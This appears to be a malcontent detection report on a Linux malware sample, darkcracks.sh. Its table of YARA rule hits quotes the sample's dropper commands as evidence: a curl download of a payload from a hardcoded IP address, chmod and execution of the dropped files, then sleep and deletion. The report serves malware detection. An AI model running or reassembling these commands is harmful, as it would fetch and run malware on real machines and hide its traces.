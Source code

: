 ## linux/2024.Darkcracks/darkcracks.sh [🚨 CRITICAL]

|   RISK   |                                                                     KEY                                                                     |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                      |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [combo/dropper/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/combo/dropper/shell.yara#curl_chmod_relative_run_tiny)   | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/run_sleep_delete.yara#run_sleep_delete)     | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/fetch.yara#curl_download_ip)                                   | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [process/chdir/unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir-unusual.yara#cd_val_obsessive)           | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [ref/ip_port](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/ip_port.yara#hardcoded_ip_port)                              | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| HIGH     | [ref/site/http/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/site/http-ip.yara#http_hardcoded_ip)                    | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file-make_executable.yara#chmod_executable_shell) | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission-modify.yara#chmod)                        | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [ref/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/ip.yara#hardcoded_ip)                                             | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [ref/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/relative.yara#relative_path_val)                  | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [ref/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/root.yara#root_path_val)                              | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/shell/exec.yara#calls_shell)                                      | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| LOW      | [ref/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/path/var.yara#var_path)                                     | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [ref/site/url](https://github.com/chainguard-dev/malcontent/blob/main/rules/ref/site/url.yara#http_url)                                     | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |

